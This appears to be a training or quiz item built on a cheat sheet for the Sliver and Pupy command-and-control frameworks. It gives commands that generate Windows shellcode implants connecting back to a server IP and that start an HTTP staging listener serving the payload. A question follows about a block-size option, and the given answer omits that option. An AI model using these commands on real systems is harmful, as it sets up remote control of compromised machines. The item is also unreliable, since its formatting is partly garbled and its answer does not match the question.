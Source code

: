 Context:## Generating a Windows Shellcode Payload with sliver
Create a new profile called `win-shellcode` that uses mutual TLS and connects to the server IP **192.168.122.1** in **shellcode** format.
```bash
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode my_profile
sliver > generate --profile my_profile
```

We can now create a staging listener and link it to the profile:
```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   http  tcp       1234
2   mtls  tcp       8888
```
>> gen -f <format> <launcher> -t <transport>
```
### Windows Shellcode Payload with pupy
Generates a Windows shellcode payload that connects to the specified IP and port using a transport method.
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport

 Question: Create a network listener that uses a predefined HTTP URL for a specific payload profile named "win-shellcode." Include an option to ensure that the data traffic is handled in blocks of the necessary size for the proper transfer of the complete payload. 

 Your response: 
```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode
```